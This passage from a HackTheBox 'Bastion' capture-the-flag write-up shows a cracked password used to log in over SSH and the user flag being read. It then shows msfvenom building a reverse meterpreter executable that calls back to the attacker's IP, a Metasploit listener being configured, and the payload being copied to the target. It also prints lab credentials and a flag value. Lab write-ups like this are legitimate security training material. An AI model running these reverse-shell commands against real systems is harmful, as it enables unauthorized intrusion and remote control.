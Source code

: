 ```
26112010952d963c8dc4217daec986d9:bureaulampje
```

The empty result for the hash shared by Administrator and Guest suggests to me that these accounts were disabled on the machine this backup was taken from. But we got a hit for the L4mpje account in 6 seconds. I confirmed my earlier hunch and was able to successfully log into the target using L4mpje:bureaulampje over SSH!

With all HackTheBox targets, the user flag is stored in a file called user.txt on the Desktop on Windows and in the user's home directory on *nix targets.

```
l4mpje@BASTION C:\Users\L4mpje>type Desktop\user.txt                                                               
9bfe57d5c3309db3a151772f9d86c6cd
```

So at this point I had an initial foothold and needed to figure out some way of elevanting my privileges. To make post-exploitation easier, I decided to establish a reverse meterpreter shell.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.13.9 LPORT=4444 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

I then setup my listener to catch the incoming connection

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.13.9
LHOST => 10.10.13.9
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.13.9:4444 
```

I copied my shell to the target using SCP and tried to execute it.

```
l4mpje@BASTION C:\Windows\Tasks>dir                                                                                
 Volume in drive C has no label.                                                                                   
 Volume Serial Number is 0CB3-C487                                                                                 
                                                                                                                   
 Directory of C:\Windows\Tasks                                                                                     
                                                                                                                   
18-07-2019  13:09    <DIR>          .                                                                              
18-07-2019  13:09    <DIR>          ..                                                                             
18-07-2019  13:09            73.802 shell.exe                                                                      
               1 File(s)         73.802 bytes                                                                      
               2 Dir(s)   5.937.876.992 bytes free                                                                 
                                                                                                                   
```